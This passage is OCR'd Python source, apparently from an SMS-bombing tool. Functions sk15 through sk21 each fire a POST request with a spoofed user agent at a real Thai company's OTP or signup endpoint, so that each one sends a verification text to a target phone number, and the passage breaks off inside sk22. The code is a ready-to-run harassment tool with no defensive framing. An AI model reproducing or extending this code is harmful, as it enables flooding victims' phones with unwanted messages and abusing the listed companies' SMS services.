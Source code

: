 

def sk15(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", headers={"User-Agent": useragent}, data={"tel": phone,"otp_type":"register"})



def sk16(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", headers={"User-Agent": useragent}, json={"on":{"value": phone,"country":"66"},"type":"mobile"})





def sk17(phone):

    post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})





def sk18(phone):

    post("https://graph.firster.com/graphql",headers={"User-Agent": useragent, "organizationcode": "lifestyle","content-type": "application/json"}, json={"operationName":"sendOtp","variables":{"input":{"mobileNumber": phone[1:],"phoneCode":"THA-66"}},"query":"mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"})





def sk19(phone):

    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": randomString(10)}})





def sk20(phone):

    post("https://store.boots.co.th/api/v1/guest/register/otp", headers={"User-Agent": useragent}, json={"phone_number":f"+66{phone[1:]}"})



def sk21(phone):

    post("https://m.lucabet168.com/api/register-otp", headers={"User-Agent": useragent} ,json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})





def sk22(phone):

    session = Session()
